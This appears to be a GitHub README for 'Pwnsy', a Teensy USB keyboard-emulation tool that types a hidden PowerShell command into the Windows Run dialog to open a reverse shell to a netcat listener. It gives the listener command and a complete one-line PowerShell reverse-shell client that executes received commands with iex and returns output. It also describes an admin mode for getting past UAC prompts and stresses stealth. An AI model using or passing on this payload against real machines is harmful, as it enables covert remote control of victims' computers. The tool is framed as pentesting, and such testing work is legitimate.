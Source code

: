 # Pwnsy
Penetration Testing Tool for Windows 7 => 10

Idea : Peensy (Offensive Security)  
Thanks to : @samratashok for the tiny (~280 characters) PowerShell TCP Client

## What does it do
It allows to execute a reverse shell on any Windows machine with PowerShell enabled within a minimal  
amount of time, and in a stealthy manner. 

## How does it works
It uses the abilities of the Teensy boards to deploy a small powershell script, using keyboard emulation.  
The goal of this project was to find a way to launch a TCP Client that would connect to a netcat listener.  

To make it as stealthy as possible, we use the "Run" window, that can be accessed by pressing Windows +R.  
Tho, the amount of text is limited to 260 characters. So we need to run a PowerShell prompt in "Hidden"  
windowstyle, and pass the commands to execute a TCP client. Unfortunately there isn't enough place to  
make the client respond to the commands sent by the netcat listener within 260 chars. 

The solution is to wait for the netcat listener to send the complete version of the TCP Client and execute it.  
That way we can have feedback from a distant machine of what's happening on commands execution sent from the server.  

In case you need an elevated PowerShell prompt to execute script from the server, there is an admin mode  
that will run PowerShell as admin and wait for a button to be pressed to accept the UAC prompt if there is one.  
That way, it's reliable and we don't have to pray for it to pop within a fixed amount of time (no hardcoded delays involved).  

1. Hardware required
   - A Teensy board (2.0 up to 3.6)
   - Switch buttons (3) to configure the different modes without compiling it every time
   - A test PCB to put those
   
What are the buttons doing? 

Button 1. Start typing after the keyboard is ready  
Button 2. Accept the UAC prompt if there is the need to  
Button 3. Admin mode (that will modify the command typed in the Run window in order to execute an elevated  
PowerShell prompt, then wait for the button 2 to be pressed in order to continue)  

## What do I need to setup (Server side)
Simply run netcat on linux, like this :  
`netcat -l -p 1337`

I advice you to run it inside of a loop in bash, so you can exit it with Ctrl+C, because that's needed if you  
send another version of the TCP Client to the client (if you use -k netcat will close when you hit Ctrl+C)  

Once you recieve a connexion, push the complete TCP Client to the client so you can have feedback
on what you execute :  
```  
$b=[text.encoding]::UTF8;while(1){try{;$u=(New-Object Net.Sockets.TCPClient("0.0.0.0",1337)).GetStream();$w=New-Object byte[] 65535;while(($i=$u.Read($w,0,$w.Length)) -ne 0){$d=$b.GetString($w,0,$i);$v=$b.GetBytes((iex $d 2>&1|Out-String));$u.Write($v,0,$v.Length)}}catch{}}
```  
(don't forget to replace the IP and port to fit your situation) 

Restart your netcat listener so the new client version can connect to your port  
Done! You can execute any PowerShell command and get the output in your netcat listener!

## Demo : 
[![5 Seconds Reverse Shell](https://img.youtube.com/vi/8NpX56rHsYY/0.jpg)](https://www.youtube.com/watch?v=8NpX56rHsYY)

### Notes
Intended for legal usage ONLY, I'm not liable for anything you do with this code.  
Feel free to give feedback and ideas in order to improve it!
